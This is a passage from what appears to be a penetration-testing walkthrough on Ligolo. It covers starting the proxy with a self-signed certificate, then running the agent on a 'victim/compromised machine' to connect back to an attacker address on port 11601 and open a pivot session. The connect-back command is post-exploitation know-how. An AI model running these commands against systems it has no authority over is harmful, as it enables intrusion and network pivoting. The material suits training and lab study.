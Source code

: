 Once the network is set up, start Ligolo with the `-selfcert` option:

```bash
./proxy -selfcert
```


![](Build-LigoloRan.png)

On the victim/compromised machine, we can connect back to our machine on port 11601 and tell it to ignore the self signed certificate:

```bash
./agent -connect 10.8.4.237:11601 -ignore-cert
```


![](Build-AgentConnect.png)

A new session will appear in Ligolo which can be connected to by running the `session` command and hitting Enter:


![](Build-Session.png)

Within the session, network information can be grabbed via the `ifconfig` command:


